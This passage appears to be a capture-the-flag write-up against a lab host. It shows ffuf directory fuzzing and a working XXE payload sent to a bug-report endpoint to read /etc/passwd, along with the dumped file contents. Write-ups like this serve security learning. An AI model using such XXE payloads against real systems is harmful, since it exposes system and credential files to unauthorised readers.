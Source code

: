 We launch a [fuff](https://github.com/ffuf/ffuf) against it, founding a
`db.php` script (which return an empty page).

    :::text
    └─$ ./ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.73.239/FUZZ -e .php -mc 200
    <SNIP>
    db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1]
    index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]
    index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]
    portal.php              [Status: 200, Size: 125, Words: 11, Lines: 6]

The portal allow to create a new bug report sending a base64 encoded XML to the endpoint.
This looks like an XXE (https://portswigger.net/web-security/xxe) vulnerability.
We modify the XML sent to the endpoint to retrieve `/etc/passwd`.

    :::text
    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>11</cwe>
        <cvss>11</cvss>
        <reward>11</reward>
        </bugreport>

We `urlEncode(Base64(ourPayload))` and send it to the server, getting the file back.

    :::text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
